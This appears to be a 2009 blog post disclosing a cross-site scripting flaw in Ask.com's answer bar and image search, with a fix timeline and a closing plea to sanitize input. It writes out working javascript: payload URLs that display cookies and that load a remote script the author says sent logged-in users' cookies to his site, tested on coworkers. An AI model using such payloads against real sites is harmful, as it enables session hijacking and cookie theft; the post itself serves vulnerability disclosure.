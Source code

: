 ```yaml
---
date: '2009-03-04 14:30:42'
layout: post
slug: answer-bar-xss
status: publish
title: Ask.com Answer Bar XSS
wordpress_id: '126'
categories:
- Computers
---
```


Last month, [Ask.com](http://www.ask.com/) introduced a new feature called the answer bar. It's an annoying iframe that shows up when you click on most search results. The answer bar obscures the real URI in the address bar, and you have to accept cookies to disable it. But the purpose of this post isn't to vent; it's to explain how until today, the answer bar was vulnerable to cross-site scripting attacks. 

Search result links look like this: (the answer bar now checks referrers so even copy-pasting won't work)

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=http://google.com`

The URI param wasn't checked. Any URI scheme was allowed, including javascript: and data:. JavaScript in the URI was run in ask.com's security context. [This link worked until very recently.](http://www.ask.com/bar?q=ask&page=1&qsrc=0&zoom=&ab=0&u=javascript:document.write(%22%3Cscript%3Ealert(document.cookie)%3C/script%3E%22);) Once I knew I could run arbitrary JavaScript, I wrote a proof of concept.

For a demonstration, I asked some coworkers to make sure they were logged in to Ask.com, then click [here](http://tinyurl.com/cwd3uq). TinyURL redirects to...

`http://www.ask.com/bar?q=ask&page;=1&qsrc;=0&zoom;=&ab;=0&u;=javascript:document.write(%22%3Cscript%20src= \%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);`

...which downloaded and ran [evil.js](/evil/evil.js). Evil.js sent ask.com cookies to my site, then added an item to the user's [MyStuff](http://mystuff.ask.com/) saved results. The MyStuff item linked to [everyone's cookie info](/evil/suckers.php).

It's a good thing Ask doesn't have any useful features, otherwise this vulnerability would be newsworthy. Instead it's just XSS practice for me and another security mistake by Ask. Ask deployed the answer bar on February 5th. E-mails were sent, tickets were filed, and it was fixed today, March 4th. Of course, that one bug is the [tip of the iceberg](http://www.xssed.com/search?key=ask.com). Thanks to [Paul](http://journal.paul.querna.org/) for pointing me to that site.

Edit: Image search still has this bug. 
Edit2: These links no longer work because Ask added HTTP referrer checks to image search. 

This will show your ask.com cookies:

[`http://images.ask.com/fr?q=blah&desturi;=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript%3Adocument.write%28%22%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E%22%29&fm=i)

And this will demonstrate evil.js if you are logged in to MyStuff:

[`http://images.ask.com/fr?q=blah&desturi;=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm;=i`](http://images.ask.com/fr?q=blah&desturi=javascript:document.write(%22%3Cscript%20src=\%22http://geoff.greer.fm/evil/evil.js?cachebuster=Math.random()\%22%3E%3C/script%3E%22);&fm=i)

If there is one thing you should learn from this, it is: **sanitize**.
